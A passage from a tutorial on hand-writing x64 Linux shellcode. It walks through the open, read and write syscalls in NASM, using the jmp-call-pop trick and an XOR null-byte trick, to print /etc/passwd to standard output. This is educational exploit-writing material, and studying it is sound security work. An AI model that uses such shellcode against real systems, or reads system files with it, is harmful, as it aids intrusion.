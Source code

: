 ```c
}
```

Now we will translate this code in ASM x64 with the shellcode condition!

# 3. Shellcode writting
So we first call a function and define our file path under the call to pop its value in the future register.

To remind, the "open" syscall is defined like: 

```c
int open(const char *pathname, int flags);
```

So the register value will look like:

```bash
(syscall number, get from "/usr/include/asm/unistd_64.h") =>    RAX=2
(1st argument)                                            =>    RDI="/etc/passwd"
(2nd argument)                                            =>    RSI="0000"
```

The code for the open syscall will look like:

```nasm
_start:
        jmp L1                      ; Jump to the first label
L2:
        pop rdi                     ; We pop the define string (file) in RDI
        xor byte [rdi + 11], 0x41   ; We set the last character of the path to "\0"
        xor rax, rax
        add al, 0x2                 ; We set 2 in al (the down part of AX, also the down part of EAX and also of RAX)
        xor rsi, rsi                ; We set RSI to 0
        syscall
L1:
        call L2                     ; We call the main function
        file: db "/etc/passwdA"     ; We define the file string (the A at end is for the future "\0")
```

The next steps will be to read the content of the file descriptor return by the previous open syscall, display it on the standard output, and then exit the program. This part is very easy so I will not detail it a lot.
To remind, the syscalls definition we will need look like:

```c
ssize_t read(int fd, void *buf, size_t count);
ssize_t write(int fd, const void *buf, size_t count);
void exit(int status);
```

And then the code to do it.

```nasm
        mov rdi, rax     ; We move the fd get from "open" to RDI
        lea rsi, [rsp]   ; We load the content of RSP to RSI
        xor rdx, rdx
        mov dx, 0xfff    ; We set RDX to 4095
        xor rax, rax     ; We set RAX to 0
        syscall

        xor rdi, rdi
        mov dil, 0x1     ; We set dil (down part of DI, EDI, RDI) to 1
        mov rdx, rax     ; We set rdx to the data size we get from read syscall
        xor rax, rax
        mov al, 0x1      ; We set al to 1
        syscall
```